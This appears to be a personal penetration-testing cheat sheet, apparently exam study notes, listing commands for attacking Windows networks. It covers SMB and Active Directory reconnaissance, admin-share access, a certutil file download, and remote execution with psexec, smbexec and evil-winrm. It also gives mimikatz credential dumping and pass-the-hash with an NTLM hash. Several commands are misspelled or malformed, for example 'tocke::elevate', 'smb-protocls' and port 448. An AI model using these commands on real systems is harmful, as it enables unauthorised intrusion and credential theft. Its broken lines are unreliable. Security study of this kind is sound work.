 Markdown語法：https://hackmd.io/@eMP9zQQ0Qt6I8Uqp2Vqy6w/SyiOheL5N/%2FBVqowKshRH246Q7UDyodFA  
https://blog.stevenyu.tw/2022/06/10/%E6%B7%B1%E5%BA%A6%E8%A7%A3%E6%9E%90-cpent-%E8%80%83%E8%A9%A6%E5%BF%83%E5%BE%97%E3%80%81%E4%BB%A5%E5%8F%8A%E8%88%87-oscp-%E7%9A%84%E6%AF%94%E8%BC%83/  
## NMAP Reacon  
nmap -sS -n -p 445 --script smb-protocls 192.168.1.1 

## AD Reacon  
# Windows  
nbtstat -A (IP)  
adreacon  
# Linux  
enum4linux-ng -A  

## Reacon SMB  
net view \\192.168.1.1  
dir \\192.168.1.1  
smbclient -L //IP -U DC_name\\acount  
nmap -n -sS -p137,138,139,448 --script smb-os-discovery 192.168.1.1  
nmap -sS -n -p 445 --script smb-protocls 192.168.1.1  

## Use SMB 
smbclient -L //IP -U DC_name\\acount  
smbclient //IP/<Folder> -U DC_name\\account  
smbclient //192.168.1.1/C$ -U DC_name\\account  

## Download File 
certutil -urlcache -split -f <URL> <輸出檔名>  

## Windows Remote  
# WinRM  
evil-winrm  
# RDP  
xfreerdp3 
# psexec  
impacket-psexec  
psexec \\192.168.1.1: cmd.exe  
# smbexec  
impacket-smbexec  

# mimikatz  
privilege::debug  
tocke::elevate  
lsadump::sam  
sekurlsa::pth /user:administrator /domain:. /ntlm:<ntlm hash>  

## GDB 
# Install Plgu-in  
# Commands  
gdb bash
b main
run 
info registers
disassemble main  

